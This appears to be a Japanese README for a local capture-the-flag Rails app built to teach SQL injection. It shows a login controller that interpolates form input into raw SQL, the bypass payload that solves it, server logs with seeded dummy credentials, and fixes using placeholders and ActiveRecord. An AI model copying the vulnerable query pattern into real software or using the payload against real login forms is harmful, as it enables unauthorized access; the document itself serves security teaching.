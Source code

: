 # Ruby On Rails SQLi 

Railsを用いてSQLiに脆弱なサンプルアプリを作ってみました。

CTF形式となっておりますので、ローカルで本アプリを立ち上げてFLAGを獲得してください。

## 実行方法

```
$ docker-compose up
```

以下のように``` localhost:3000/ror/index ```が立ち上がればオッケーです。

![起動画面](./sample.png)

以下答えになります。

## TL;DR

```
' OR 1 LIMIT 1; -- '
```

## Railsとは？

MVCアーキテクチャに基づいて設計されたWebアプリケーションフレームワーク

ControllerにあたるAction Controller、
ViewにあたるAction View、
ModelにあたるActive Recordが担当

Railsの理念

- 設定より規約（Convention over configuration; CoC）
- DRY（Don't Repeat Yourself）
- REST（Representational State Transfer）

## Railsの仕組み

Railsアプリに対してアクセスが来たとき、RailsはどのURIにどのHTTPメソッドが来たかを判別し、[routes.rb](./config/routes.rb)を参照しながら適切なコントローラーを呼び出します。

```
  get 'ror/index'
```

とあるので、[ror_controller.rb](./controllers/ror_controller.rb)のindex関数によって処理されることが定義されています。

さて、index関数は何も書いていない空の関数です。

この場合、アプリは[index.html.erb](./ror/views/index.html.erb)の中身をすぐに用意します。

このerbファイルからHTMLが作成され、ユーザーに表示されるという仕組みなっております。

index.html.erbを眺めてみましょう。

```
<html>
  <head>
    <title>Login</title>
  </head>
  <body>
    <h1>Login</h1>
    <%= form_tag("/ror/login", method: "post") do %>
        <%= label_tag(:nickname, "Nickname:") %>
        <%= text_field_tag(:nickname) %>
        <br>
        <%= label_tag(:password, "Password:") %>
        <%= text_field_tag(:password) %>
        <%= submit_tag("Submit") %>
      <% end %>

    <p>Time: <%= Time.current %></p>
  </body>
</html>
```

ユーザの入力を受け付けるRailsのAction Viewのフォームヘルパー```form_tag```、```label_tag```などがあります。

さて、上記コードによって```/ror/login```というURIにニックネームとパスワードの情報がpostされますが、routingを確認してみるとは[ror_controller.rb](./controllers/ror_controller.rb)のlogin関数によって処理されることが定義されています。

login関数は以下のようになっております。

```
  def login

    con = ActiveRecord::Base.connection
    result = con.select_all("SELECT * FROM users WHERE nickname = '#{params[:nickname]}' AND password = '#{params[:password]}'")

    if result.to_a.size == 1
      render plain: 'FLAG{dummy_flag}'
      return
    end

    render plain: 'Login Failed'
  end
```

生SQLを発行していることが分かります。

SQLはニックネームとパスワードが一致するユーザーをSELECTしているようです。

ログインの成功条件としては、SQLの結果が1件取れた場合にログイン成功となりFLAGを返しているようです。

## 解法

NicknameかPasswordに

```
' OR 1 LIMIT 1; -- '
```

を入力するとログインを突破し、Flagを手に入れることができます。

ちなみに、

```
' OR 1; -- '
```

だと、```Login Failed```となってしまうが、これはもちろん、result.to_a.sizeが3になってしまうからである。

このときのWeb側のログを見ると、

```
(1.3ms)  SELECT * FROM users WHERE nickname = '' OR 1; -- '' AND password = '1'
web_1  |   ↳ app/controllers/ror_controller.rb:10:in `login'
web_1  | {"id"=>"08d9a2ad-dab1-44eb-9728-db8019921c1d", "nickname"=>"ゼニガメ", "email"=>"zenigame@pokemon.ac.jp", "password"=>"Mjs0Bmiv2", "age"=>20, "created_at"=>2021-01-12 00:18:10 UTC, "updated_at"=>2021-01-12 00:18:10 UTC}
web_1  | {"id"=>"83aee8fd-11b4-4298-9c4b-0f5483b3115f", "nickname"=>"ヒトカゲ", "email"=>"hitokage@pokemon.ac.jp", "password"=>"FgkmcSFk2i", "age"=>20, "created_at"=>2021-01-12 00:18:10 UTC, "updated_at"=>2021-01-12 00:18:10 UTC}
web_1  | {"id"=>"e8077e6c-0d14-466c-8300-6b7975b95442", "nickname"=>"フシギダネ", "email"=>"fushigidane@pokemon.ac.jp", "password"=>"m3bChIrNov", "age"=>5, "created_at"=>2021-01-12 00:18:10 UTC, "updated_at"=>2021-01-12 00:18:10 UTC}
```

となるため、SQL文は正しく発行されていることが分かります。

ログイン条件を正にするためには、検索結果を一件のみに絞らせる必要があります。

## 対策方法

発行するSQLの中に変数が入ってくる場合、プレースホルダで書くことが望ましいです。

問題となったSQLはプレースホルダで書くと

```
result = con.select_all("SELECT * FROM users WHERE nickname = ? AND password = ?", "#{params[:nickname]}", "#{params{:password}}")
```

となります。

RailsにはActiveRecordという強力なO/Rマッパーが用意されているので、それを使いましょう。

今回の場合だと、where句を用いることができます。

```
result = User.where(nickname: params[:nickname], password: params[:password])
```

さて、Railsdではログイン機能を作る際はdeviseというGemを利用するのが一般的です。

Gemとは、Rubyで書かれたプログラムをパッケージ化したもので、通常Bundlerを用いてGemを管理します。（Pythonでいうところのpipのようなものです。）

deviseを用いることで、会員登録・ログイン・パスワード変更機能なども容易に作成でき、セッションの確保・破棄、サインイン回数やサインイン時間やIPアドレスなども記録できます。

## データベースの中身を見てみたい方へ（Rails初学者向け）

Railsでは、rails consoleという便利なツールを使ってデータベースの中身を確認できます。

今回の問題では、以下のように```rails c```で立ち上げて、```User.all```と打つだけです。

```
$ docker exec -it ror_sqlis_web_1 bash
root@9f42995292fd:/myapp# rails c
Running via Spring preloader in process 65
Loading development environment (Rails 6.1.0)
irb(main):001:0> User.all
  User Load (0.6ms)  SELECT `users`.* FROM `users` /* loading for inspect */ LIMIT 11
=> #<ActiveRecord::Relation [#<User id: "02183cc7-3183-41eb-9f2b-81f5f8a2eb20", nickname: "ゼニガメ", email: "zenigame@pokemon.ac.jp", password: [FILTERED], age: 20, created_at: "2021-01-12 02:42:59.643294000 +0000", updated_at: "2021-01-12 02:42:59.643294000 +0000">, #<User id: "13663518-f302-4dd2-beb4-366750dde71a", nickname: "フシギダネ", email: "fushigidane@pokemon.ac.jp", password: [FILTERED], age: 5, created_at: "2021-01-12 02:42:59.626354000 +0000", updated_at: "2021-01-12 02:42:59.626354000 +0000">, #<User id: "f4091449-caef-4502-96fe-55d90600d734", nickname: "ヒトカゲ", email: "hitokage@pokemon.ac.jp", password: [FILTERED], age: 20, created_at: "2021-01-12 02:42:59.636228000 +0000", updated_at: "2021-01-12 02:42:59.636228000 +0000">]>>
```



